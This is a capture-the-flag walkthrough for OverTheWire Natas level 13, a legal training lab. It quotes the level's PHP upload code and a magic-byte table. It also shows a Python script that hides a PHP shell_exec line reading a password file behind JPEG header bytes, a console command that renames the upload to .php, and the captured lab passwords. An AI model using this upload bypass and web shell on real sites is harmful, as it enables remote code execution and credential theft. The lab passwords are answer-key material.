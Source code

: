 # Natas Level 12 → Level 13 Fake image file signature

## Previous Flag
<b>trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC</b>

## Goal
Username: natas13<br>
URL: http://natas13.natas.labs.overthewire.org<br>

For security reasons, we now only accept image files!<br>
Choose a JPEG to upload (max 1KB):<br>
Choose File     No File Chosen<br>
Upload File

## What I learned
```
exif_imagetype() not check file extension only actual binary content (magic bytes) of file
Bypasses:
    Upload a valid image file with PHP code embedded after the image data
    Ensure the header bytes look like a JPEG or PNG
    Rename it to .php (if allowed) or something like .php.jpg
    Trigger the PHP execution by accessing the uploaded file directly
```
<br>

| Magic Bytes       | File Type                        | Description                                     |
|-------------------|----------------------------------|-------------------------------------------------|
| <b>FF D8 FF E0</b>| JPEG (JFIF)                      | JPEG image with JFIF metadata                   |
| FF D8 FF E1       | JPEG (Exif)                      | JPEG image with EXIF metadata                   |
| FF D8 FF DB       | JPEG                             | JPEG with quantization table                    |
| FF D9             | JPEG                             | End of Image (EOI) marker                       |
| 89 50 4E 47 0D 0A 1A 0A | PNG                        | PNG image                                       |
| 47 49 46 38 37 61 | GIF87a                           | GIF image (older format)                        |
| 47 49 46 38 39 61 | GIF89a                           | GIF image (newer format)                        |
| 42 4D             | BMP                              | Bitmap image (BMP)                              |
| 25 50 44 46       | PDF                              | PDF file                                        |
| 50 4B 03 04       | ZIP / DOCX / PPTX / XLSX         | ZIP archive or MS Office Open XML formats       |
| 52 61 72 21 1A 07 00 | RAR                           | RAR archive (v1.5+)                             |
| 7F 45 4C 46       | ELF                              | Executable and Linkable Format (Linux binary)   |
| 4D 5A             | EXE / DLL                        | Windows Executable (MZ header)                  |
| 3C 3F 70 68 70    | PHP                              | PHP script starting with `<?php`                |
| EF BB BF          | UTF-8 BOM                        | Byte Order Mark for UTF-8 encoded files         |
| D0 CF 11 E0 A1 B1 1A E1 | DOC / XLS / PPT            | Older MS Office binary formats                  |
| 00 61 73 6D       | WASM                             | WebAssembly binary  

## Solution
```
Click View source code
http://natas13.natas.labs.overthewire.org/index-source.html

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<?php
function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 👀
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

# Create new .png name test.png

# Fake an image file signature
#!/bin/python

with open("test.php", "wb") as f:
    # Write JPEG header bytes
    f.write(b'\xFF\xD8\xFF\xE0\x00\x10JFIF\x00\x01\x01\x00\x00\x01\x00\x01\x00\x00')
    # Write PHP code
    f.write(b'<?php echo shell_exec("cat /etc/natas_webpass/natas14"); ?>')
    # Write JPEG EOI marker
    f.write(b'\xFF\xD9')

# Open in Notepad++
ÿØÿàshell_exec("cat /etc/natas_webpass/natas14");

# Open in hexdump
@trungdullc ➜ /workspaces/01noobHacker (main) $ hexdump static/test.png
0000000 d8ff e0ff 6873 6c65 5f6c 7865 6365 2228
0000010 6163 2074 652f 6374 6e2f 7461 7361 775f
0000020 6265 6170 7373 6e2f 7461 7361 3431 2922
0000030 003b                                   
0000031

# Modify hidden input field in browser’s javascript console
$('input[name="filename"]').val("test.php") ⌨️

# Upload payload (test.png)
The file upload/hrpcjtt3z1.php has been uploaded
����.JFIF....z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ �� 🔐
```

## Flag
<b>z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ</b>

## Continue
[Continue](/overthewire/Natas1314.md)